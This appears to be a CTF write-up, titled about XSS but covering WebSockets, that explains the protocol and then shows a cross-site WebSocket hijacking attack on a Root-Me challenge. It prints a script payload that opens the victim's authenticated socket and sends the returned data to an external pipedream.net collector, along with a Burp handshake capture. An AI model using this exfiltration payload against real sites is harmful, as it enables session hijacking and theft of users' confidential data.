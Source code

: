 ```yaml
---
title: XSS Vulnerabilities
description: Explanation of some XSS Vulnerabilities
date: "2025-07-23T10:00:00+02:00"

---
```


![Websocket_1](websockets.svg)

# Introduction

Today I'm going to talk about web sockets, you may have found `wss://` or `ws://` somewhere and wonder what's that, well I'll try to explain the best I can :)

## What are web Sockets?
WebSockets are widely used in modern web applications. They are initiated over HTTP and provide long-lived connections with asynchronous communication in both directions.
WebSockets are used for all kinds of purposes, including performing user actions and transmitting sensitive information. Virtually any web security vulnerability that arises with regular HTTP can also arise in relation to WebSockets communications. 

## What is the difference between HTTP and WebSockets?

Most communication between web browsers and web sites uses HTTP. With HTTP, the client sends a request and the server returns a response. Typically, the response occurs immediately, and the transaction is complete. Even if the network connection stays open, this will be used for a separate transaction of a request and a response. 

WebSocket connections are initiated over HTTP and are typically long-lived. Messages can be sent in either direction at any time and are not transactional in nature. The connection will normally stay open and idle until either the client or the server is ready to send a message.

WebSockets are particularly useful in situations where low-latency or server-initiated messages are required, such as real-time feeds of financial data. 

## How are WebSocket connections established?

WebSocket connections are normally created using client-side JavaScript like the following:
var ws = new WebSocket("wss://target-website.com/room");

## Check connection status
If you head to the !["mozilla mdn docs"](https://developer.mozilla.org/en-US/docs/Web/API/WebSocket/readyState) there is a rich page with really useful information about the websocket connection state. This way we can ensure wether we're connected (or not!):

| Value |    State   |                        Description                       |
|:-----:|:----------:|:--------------------------------------------------------:|
| 0     | CONNECTING | Socket has been created. The connection is not yet open. |
| 1     | OPEN       | The connection is open and ready to communicate.         |
| 2     | CLOSING    | The connection is in the process of closing.             |
| 3     | CLOSED     | The connection is closed or couldn't be opened.          |

This is the information that we need!

## Check for javascript files.
We can crawl through the website and see some javascript page:
[...]
```js
 var connection = new WebSocket('ws://'+window.location.hostname+'/ws');  
    connection.onopen = function () {};  
    connection.onerror = function (error) {
      alert("An error occured, you will reload the page for you to access a new room !")
      location.reload()
    };
    connection.onmessage = function (message) {
      $("#chatbox").append("You: "+$("#input").val().replace('<','').replace('>','')+"\n")
      $("#chatbox").append("\nBot: "+message["data"].replace('<','').replace('>','')+"\n-------------------------------------------------------------\n")
      $('#chatbox').scrollTop($('#chatbox')[0].scrollHeight);
      $("#input").val("")
    };
```
[...]
## Begin the connection.

```javascript
var ws = new WebSocket('ws://'+window.location.hostname+'/ws');
ws.readyState // this should return 1 ^^

// CSRF
ws.onmessage = function (message) {
      $("#chatbox").append("You: "+$("#input").val() + "\n")
      $("#chatbox").append("\nBot: "+message["data"] + "\n-------------------------------------------------------------\n")
      $('#chatbox').scrollTop($('#chatbox')[0].scrollHeight);
      $("#input").val("")
    };
```
<script>
websocket = new WebSocket('ws://ctf02.root-me.org/ws')
websocket.readyState;
websocket.onopen = start
websocket.onmessage = handleReply
function start(event) {
  websocket.send("READY"); //Send the message to retreive confidential information
}
function handleReply(event) {
  //Exfiltrate the confidential information to attackers server
  fetch('https://eoj1ovww5kfcgvi.m.pipedream.net/?'+event.data, {mode: 'no-cors'})
}
</script>

# Let's get this party started

First, let's analyze if there's any CSRF TOKEN, if the connection is secured only by the cookie, we can hijack the user the html files for example, from another domain.
Let's open burp and initiate a WS connection, what do we see?

```html
GET /ws HTTP/1.1
Sec-WebSocket-Version: 13
Origin: http://ctf10.blabla
Sec-WebSocket-Key: iTI6sd0uJHFmgn5gu8kHLA==
Connection: keep-alive, Upgrade
Cookie: _ga_SRYSKX09J7=GS1.1.1659040468.3.1.1659042535.0; _ga=GA1.1.239451001.1658089567; connect.sid=s%3AdFQWhWUSdk2LvNXIraAJOcP3Gdr5Zw5z.1aRYfGUzzd6cOK5KeH6zNeTdzwOcvbFYngmjfzMecyY
Upgrade: websocket
```

Response:
```
HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: mi0J6oYY40on/uTajuMWA/m+Ckc=
```

See, 3 cookies are set and there's nothing regarding CSRF tokens, looks nice.... but what about if we delete the cookies and reconnect again, will we be able to interact with the server?

sending ws message:
> Unable to verify your identity, please log in before chatting with me.

We got something!!! Now that we don't have any cookie, the connection is being made but requests are being rejected by WSS: We need some cookies!
Cookies can be gathered from a victim's pov

ws://ctf04.root-me.org/ws